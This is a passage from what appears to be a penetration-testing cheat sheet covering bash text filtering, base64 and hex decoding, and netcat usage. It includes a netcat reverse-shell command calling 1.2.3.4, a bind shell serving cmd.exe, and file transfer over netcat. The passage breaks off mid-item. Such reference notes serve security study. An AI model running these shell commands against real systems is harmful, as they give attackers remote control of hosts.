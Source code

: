         `tail index.html`

    -   Extract all the lines that contain a string
        `grep "href=" index.html`

    -   Cut a string by a delimiter, filter results then sort
        `grep "href=" index.html | cut -d "/" -f 3 | grep "\\." | cut -d '"' -f 1 | sort -u`

    -   Using Grep and regular expressions and output to a file
        `cat index.html | grep -o 'http://\[^"\]\*' | cut -d "/" -f 3 | sort –u > list.txt`

    -   Use a bash loop to find the IP address behind each host
        `for url in $(cat list.txt); do host $url; done`

    -   Collect all the IP Addresses from a log file and sort by
        frequency
        `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`

-   Decoding using Kali

    -   Decode Base64 Encoded Values

        `echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode`

    -   Decode Hexidecimal Encoded Values
        `echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps`

-   Netcat - Read and write TCP and UDP Packets

    -   Download Netcat for Windows (handy for creating reverse shells and transfering files on windows systems):
        [https://joncraton.org/blog/46/netcat-for-windows/](https://joncraton.org/blog/46/netcat-for-windows/)

    -   Connect to a POP3 mail server
        `nc -nv $ip 110`

    -   Listen on TCP/UDP port
        `nc -nlvp 4444`

    -   Connect to a netcat port
        `nc -nv $ip 4444`

    -   Send a file using netcat
        `nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe`

    -   Receive a file using netcat
        `nc -nlvp 4444 > incoming.exe`

    -   Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...

            whereis nc
            nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz

            /bin/nc.traditional -e /bin/bash 1.2.3.4 4444


    -   Create a reverse shell with Ncat using cmd.exe on Windows
        `nc.exe -nlvp 4444 -e cmd.exe`

        or
